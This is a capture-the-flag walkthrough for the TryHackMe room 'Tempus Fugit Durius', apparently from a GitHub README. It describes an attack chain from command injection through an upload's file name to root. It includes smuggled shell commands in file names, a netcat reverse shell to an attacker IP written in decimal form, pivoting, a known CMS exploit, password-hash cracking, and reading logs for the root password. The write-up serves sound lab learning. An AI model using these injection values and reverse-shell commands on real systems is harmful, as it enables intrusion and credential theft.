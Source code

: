 # Tempus Fugit Durius

https://tryhackme.com/room/tempusfugitdurius

Rated HARD

Bit of a tricky room, with multiple stages.

1. A site is exposed on port 80, with a upload function. The file name is vulnerable to limited RCE (e.g. use burp to change file name to `t.txt;ls -la`) which if nothing goes wrong will feed the response into the message on the following page. With this limited recon can be performed, including reading the sites code.

2. This reveals a limit of 30 characters, and the presence of .txt or .rtf somewhere in the name. This can be abused to establish a netcat connection, e.g. with `t.txt;nc 168462808 44 -e sh`. Note that the ip address of the attack box is converted to its decimal representation (which still works) to reduce character count.

3. On the machine, its obviously a docker container with limited access. However, in /etc/resolv.conf there is an entry for 'mofo.pwn'. This is also referenced in the site code, where files you upload are sent to 'ftp.mofo.pwn'. Dig is on the machine, and via that you can run `dig axfr mofo.pwn` to get a set of IP addresses.

4. Of these, the ftp IP address is useful (192.168.150.12) and the IP address for a CMS (192.168.150.1). By establishing a proxy forward through this docker container (via chisel, meterpreter, reverse_ssh or whatever) the website on .1 is the Batflat CMS, which has a known authenticated exploit here: https://www.exploit-db.com/exploits/49573

5. The FTP server can either be accessed from the box using the python ftp library, or via the attack box with proxychains. If doing the latter, after connecting to the server (using the credentials from the website code), use the `passive` command to get around the bind port not work over a proxy. On the ftp server is a creds.txt file that contains the admin creds for the batflat CMS instance.

6. With these creds and teh exploit from 4, you can get a reverse shell on the final machine.

At this point its quickest to go straight to root, but if one chooses its also possible to get the user flag first by switching from www-data to the benclover user. This is done by getting the password out of the sqlite database.sdb file the CMS is using, and bruteforcing the hash (-m 3200) with hashcat. This reveals ben's password and you can su to that user.

The privesc to root is possible from benclover OR the www-data user, and involves the SGUID binary on the machine `ispell`, a spellchecker. https://gtfobins.github.io/gtfobins/ispell/ shows how to escape ispell, but you will only have the `adm` group privileges. However, this is enough to access `/var/log/auth.log`, which contains within it a mistype event involving a password string. This is the password for the root account.
